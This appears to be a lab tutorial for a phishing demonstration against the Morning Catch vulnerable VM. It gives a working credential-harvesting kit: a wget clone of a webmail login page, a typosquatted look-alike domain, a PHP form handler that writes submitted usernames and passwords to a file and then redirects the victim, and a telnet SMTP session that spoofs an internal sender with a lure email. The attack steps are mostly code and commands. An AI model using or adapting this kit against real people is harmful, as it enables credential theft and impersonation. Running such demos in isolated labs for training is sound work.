






# Intro to Phishing Demo

This demo will be an example of a credential harvesting attack without using attack tools. 

## Prerequisites

### Attacker VM 

Networking: Host Only or Internal 
Open Ports: 80

Linux with the following packages installed: 
 - php 5.4 or newer 
 - wget 
 - Firefox or Chrome

### Victim

Networking: Host Only or Internal
Open Ports: 25, 80

We will be using the Morning Catch VM created by Raphael Mudge: http://blog.cobaltstrike.com/2014/08/06/introducing-morning-catch-a-phishing-paradise/

It can be downloaded from vulnhub.com at: https://www.vulnhub.com/entry/morning-catch-phishing-industries,101/

### Setup DNS Entries 

#### On the Attacker VM 

Add the attacker and victim IPs to /etc/hosts: 

```
<Attacker IP>	mornincatch.ph
<Victim IP>	morningcatch.ph
```

#### On the Victim VM

Add the attacker IP to /etc/hosts:

```
<Attacker IP>	mornincatch.ph
```

## Recon 

Our target is the Morning Catch company, our first reconnaissance step should be exploring their Internet presence at http://morningcatch.ph: 



On the website we find a list of contacts on the company directory: 


And a login for what appears to be webmail: 


## Setup

We can launch a credential harvesting attack by cloning the site and convincing a user to enter their credentials on our webserver. 

### Cloning morningcatch.ph

Using wget we can clone the site: 

```bash
wget -r -l1 -k -p morningcatch.ph/mail/
sudo mv morningcatch.ph/mail /var/www/html/
sudo vim /var/www/html/mail/index.html
```

In order to capture the credentials entered into our site we need to modify the login form to call a php script that will save the form input to disk.

Old post element:

```html
<form name="form" action="index.html" method="post">
```

New post element:

```html
<form name="form" action="form.php" method="post">
```

Now we just need to write the form.php script:

```php
<?php

$user = $_POST['_user'];
$pass = $_POST['_pass'];

$f = fopen("creds.txt", "a");

fwrite($f, "$user:$pass\n");

fclose();
header("Location: http://morningcatch.ph/mail/");
die();
?>
```

```bash
touch /var/www/html/mail/creds.txt
sudo chown www-data:www-data /var/www/ -R 
```

And verify that the site works correctly by logging in and checking creds.txt:



## Send Messages to Target 

### Email Server - Pretending to be Boyd
Now that we have setup the site we can craft the email for the target:


```bash
telnet morningcatch.ph 25
ehlo morningcatch.ph
mail from: bjenius@morningcatch.ph
rcpt to: rbourne@morningcatch.ph
data
Subject: 

We are currently testing a new performance configuration for the webmail site, please test the site changes by visiting: http://mornincatch.ph/mail/

Boyd

.
quit
```

### Richard Checks his Mail

When Richard Bourne goes to check his email, he receives the following message: 



Being the savy CEO he is, Richard clicks the link:



## Responses 

The responses can be recorded using our cred.txt file: 

```
hans	i<3cats
rbourne	password
```

The apache2 logs
```
INSERT SERVER LOGS
```

## Report 
